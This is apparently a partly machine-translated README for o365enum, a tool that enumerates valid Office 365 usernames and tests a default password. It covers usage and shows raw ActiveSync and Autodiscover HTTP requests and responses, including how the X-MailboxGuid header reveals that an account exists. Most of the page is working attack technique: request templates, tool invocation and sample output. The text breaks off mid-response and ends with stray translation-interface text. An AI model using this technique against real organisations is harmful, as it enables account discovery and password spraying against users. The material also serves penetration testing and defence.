 # Ofisi ya Watumiaji 365

Hesabu majina ya watumiaji halali kutoka Ofisi 365 ukitumia ActiveSync, Autodiscover, au ukurasa wa kuingia wa office.com.

## Usage

o365enum will read usernames from the file provided as first parameter. The file should have one username per line. The output is CSV-based for easier parsing. Valid status can be 0 (invalid user), 1 (valid user), 2 (valid user and valid password).

```
python3.6 o365enum.py -h
usage: o365enum.py [-h] -u USERLIST [-p PASSWORD] [-n NUM] [-v]
                   [-m {activesync,autodiscover,office.com}]

Office365 User Enumeration Script

optional arguments:
  -h, --help            show this help message and exit
  -u USERLIST, --userlist USERLIST
                        username list one per line (default: None)
  -p PASSWORD, --password PASSWORD
                        password to try (default: Password1)
  -n NUM, --num NUM     # of reattempts to remove false negatives (default: 3)
  -v, --verbose         Enable verbose output at urllib level (default: False)
  -m {activesync,autodiscover,office.com}, --method {activesync,autodiscover,office.com}
                        method to use (default: activesync)
```

Example run:

```
./o365enum.py -u users.txt -p Password2 -n 1 -m activesync
username,valid
nonexistent@contoso.com,0
existing@contoso.com,1
```

## Enumeration Methods

### ActiveSync Enumeration

This method is based on grimhacker's [method](https://grimhacker.com/2017/07/24/office365-activesync-username-enumeration/) that sends Basic HTTP authentication requests to ActiveSync endpoint. However, **checking the status code no longer works given that Office365 returns a 401 whether the user exists or not**.

Instead, we send the same request but check for a custom HTTP response header (`X-MailboxGuid`) presence to identify whether a username is valid or not.

#### Existing Account

The request below contains the following Base64 encoded credentials in the Authorization header: valid_user@contoso.com:Password1

```
OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1
Host: outlook.office365.com
Connection: close
MS-ASProtocolVersion: 14.0
Content-Length: 0
Authorization: Basic dmFsaWRfdXNlckBjb250b3NvLmNvbTpQYXNzd29yZDE=
```


This elicits the following response ("401 Unauthorized") with the `X-MailboxGuid` header set, indicating that the username is valid but the password is not:

```
Date: Fri, 31 Jan 2020 13:02:46 GMT
Connection: close
HTTP/1.1 401 Unauthorized
Content-Length: 1293
Content-Type: text/html
Server: Microsoft-IIS/10.0
request-id: d494a4bc-3867-436a-93ef-737f9e0522eb
X-CalculatedBETarget: AM0PR09MB2882.eurprd09.prod.outlook.com
X-BackEndHttpStatus: 401
X-RUM-Validated: 1
X-MailboxGuid: aadaf467-cd08-4a23-909b-9702eca5b845 <--- This header leaks the account status (existing)
X-DiagInfo: AM0PR09MB2882
X-BEServer: AM0PR09MB2882
X-Proxy-RoutingCorrectness: 1
X-Proxy-BackendServerStatus: 401
X-Powered-By: ASP.NET
X-FEServer: AM0PR06CA0096
WWW-Authenticate: Basic Realm="",Negotiate
Date: Fri, 31 Jan 2020 13:02:46 GMT
Connection: close

--snip--
```

#### Nonexistent Account

The request below contains the following Base64 encoded credentials in the Authorization header: invalid_user@contoso.com:Password1

```
OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1
Host: outlook.office365.com
Connection: close
MS-ASProtocolVersion: 14.0
Content-Length: 2
Authorization: Basic aW52YWxpZF91c2VyQGNvbnRvc28uY29tOlBhc3N3b3JkMQ==
```

This elicits the following response ("401 Unauthorized" but this time without the `X-MailboxGuid` header, indicating the username is invalid.

```
HTTP/1.1 401 Unauthorized
Content-Length: 1293
Content-Type: text/html
Server: Microsoft-IIS/10.0
request-id: 2944dbfc-8a1e-4759-a8a2-e4568950601d
X-CalculatedFETarget: DB3PR0102CU001.internal.outlook.com
X-BackEndHttpStatus: 401
WWW-Authenticate: Basic Realm="",Negotiate
X-FEProxyInfo: DB3PR0102CA0017.EURPRD01.PROD.EXCHANGELABS.COM
X-CalculatedBETarget: DB7PR04MB5452.eurprd04.prod.outlook.com
X-BackEndHttpStatus: 401
X-RUM-Validated: 1
X-DiagInfo: DB7PR04MB5452
X-BEServer: DB7PR04MB5452
X-Proxy-RoutingCorrectness: 1
X-Proxy-BackendServerStatus: 401
X-FEServer: DB3PR0102CA0017
X-Powered-By: ASP.NET
X-FEServer: AM0PR04CA0024
Date: Fri, 31 Jan 2020 16:19:11 GMT
Connection: close

--snip--
```

### Autodiscover Enumeration

The autodiscover endpoint allows for user enumeration without an authentication attempt. The endpoint returns a 200 status code if the user exists and a 302 if the user does not exists (unless the redirection is made to an on-premise Exchange server).

#### Existing User

```
GET /autodiscover/autodiscover.json/v1.0/existing@contoso.com?Protocol=Autodiscoverv1 HTTP/1.1
Host: outlook.office365.com
User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Outlook 16.0.12026; Pro
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
MS-ASProtocolVersion: 14.0
```

```
HTTP/1.1 200 OK
Cache-Control: private
Content-Length: 97
Content-Type: application/json; charset=utf-8
Vary: Accept-Encoding
Server: Microsoft-IIS/10.0
request-id: fee7f899-7115-43da-9d34-d3ee19920a89
X-CalculatedBETarget: AM0PR09MB2882.eurp 
More about this source textSource text required for additional translation information
Send feedback
Side panels
History
Saved
Contribute
